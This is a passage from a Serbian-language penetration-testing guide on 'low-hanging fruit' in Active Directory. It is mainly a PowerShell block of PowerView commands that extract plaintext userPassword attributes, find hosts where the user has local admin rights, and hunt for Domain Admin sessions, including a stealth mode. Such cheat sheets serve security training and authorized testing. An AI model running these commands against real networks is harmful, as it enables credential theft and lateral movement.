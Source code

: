 ### Nisko-vešanje voća

Nisko-vešanje voća se odnosi na ranjive tačke ili slabosti koje su lako dostupne i mogu biti iskorišćene od strane napadača. Ove ranjivosti su često jednostavne za iskorišćavanje i mogu biti prvi korak u napadu na sistem.

```powershell
#Check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

#Asks DC for all computers, and asks every compute if it has admin access (very noisy). You need RCP and SMB ports opened.
Find-LocalAdminAccess

#(This time you need to give the list of computers in the domain) Do the same as before but trying to execute a WMI action in each computer (admin privs are needed to do so). Useful if RCP and SMB ports are closed.
.\Find-WMILocalAdminAccess.ps1 -ComputerFile .\computers.txt

#Enumerate machines where a particular user/group identity has local admin rights
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>

# Enumerates the members of specified local group (default administrators)
# for all the targeted machines on the current (or specified) domain.
Invoke-EnumerateLocalAdmin
Find-DomainLocalGroupMember

#Search unconstrained delegation computers and show users
Find-DomainUserLocation -ComputerUnconstrained -ShowAll

#Admin users that allow delegation, logged into servers that allow unconstrained delegation
Find-DomainUserLocation -ComputerUnconstrained -UserAdminCount -UserAllowDelegation

#Get members from Domain Admins (default) and a list of computers
# and check if any of the users is logged in any machine running Get-NetSession/Get-NetLoggedon on each host.
# If -Checkaccess, then it also check for LocalAdmin access in the hosts.
## By default users inside Domain Admins are searched
Find-DomainUserLocation [-CheckAccess] | select UserName, SessionFromName
Invoke-UserHunter [-CheckAccess]

#Search "RDPUsers" users
Invoke-UserHunter -GroupName "RDPUsers"

#It will only search for active users inside high traffic servers (DC, File Servers and Distributed File servers)
Invoke-UserHunter -Stealth
```

### Obrisani objekti
